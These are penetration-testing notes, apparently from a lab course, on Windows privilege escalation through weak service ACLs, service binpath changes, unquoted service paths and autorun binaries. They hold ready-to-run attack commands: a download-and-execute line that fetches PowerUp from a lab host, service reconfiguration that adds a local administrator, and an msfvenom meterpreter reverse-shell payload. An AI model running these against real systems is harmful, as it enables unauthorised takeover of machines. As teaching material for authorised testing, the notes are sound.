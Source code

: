 Permissions on Windows systems are complicated and challenging to get right. A slight modification in one place may introduce a flaw elsewhere. As penetration testers, we need to understand how permissions work in Windows and the various ways that misconfigurations can be leveraged to escalate privileges. The permissions-related flaws discussed in this section are relatively uncommon in software applications put out by large vendors (but are seen from time to time) but are common in third-party software from smaller vendors, open-source software, and custom applications. Services usually install with SYSTEM privileges, so leveraging a service permissions-related flaw can often lead to complete control over the target system. Regardless of the environment, we should always check for weak permissions and be able to do it both with the help of tools and manually in case we are in a situation where we don't have our tools readily available.

### Permissive File System ACLs
We can use [SharpUp](https://github.com/GhostPack/SharpUp/) from the GhostPack suite of tools to check for service binaries suffering from weak ACLs
```powershell
.\SharpUp.exe audit
```

Or PowerUp
```powershell
IEX(New-Object Net.WebClient).downloadString('http://10.10.15.155/PowerUp.ps1');Invoke-Allchecks
```

Check permissions with `icals`
```powershell
icacls "C:\Program Files (x86)\PCProtect\SecurityService.exe"
```

Replace service binary with malicious SecurityService.exe
```powershell
cmd /c copy /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"
sc start SecurityService
```

### Weak Service Permissions
SharpHound
```powershell
.\SharpUp.exe audit
```
 PowerUp
```powershell
IEX(New-Object Net.WebClient).downloadString('http://10.10.15.155/PowerUp.ps1');Invoke-Allchecks
```
View services manual
```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```

Check service permissions
```powershell
accesschk.exe /accepteula
```

Change binpath to add new local admin
```powershell
sc config WindscribeService binpath="cmd /c net localgroup administrators htb-student /add"
```

Restart service
```powershell
sc stop WindscribeService
sc start WindscribeService
shutdown /r /t 0
```
##### Cleanup
```powershell
sc config WindScribeService binpath="c:\Program Files (x86)\Windscribe\WindscribeService.exe"
```

### Unquoted Service Paths
When the service is started Windows looks through every word in the path separated with a space and tes**t .exe**

- C:\Program.exe - NO
- C:\Program Files.exe - NO    
- C:\Program Files\Unquoted.exe - NO
- C:\Program Files\Unquoted Path.exe - NO

And so on...

PowerUp discovery
```powershell
IEX(New-Object Net.WebClient).downloadString('http://10.10.15.155/PowerUp.ps1');Invoke-Allchecks
```

Manual discovery
```powershell
wmic service get name,displayname,pathname,startmode |findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """
```

Check service
```powershell
C:\htb> sc qc SystemExplorerHelpService

[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: SystemExplorerHelpService
        TYPE               : 20  WIN32_SHARE_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\Program Files (x86)\System Explorer\service\SystemExplorerService64.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : System Explorer Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```

Drop malicious executable under `C:\Program Files (x86)\System Explorer` as `System.exe` because of the space

```powershell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.8 LPORT=1337 -f exe -o System.exe
```

### Modifiable Registry Autorun Binary
Check for startup services/binaries
```powershell
Get-CimInstance Win32_StartupCommand | select Name, command, Location, User |fl
```

This [post](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/privilege-escalation-with-autorun-binaries.html) and [this site](https://www.microsoftpressstore.com/articles/article.aspx?p=2762082&seqNum=2) detail many potential autorun locations on Windows systems.
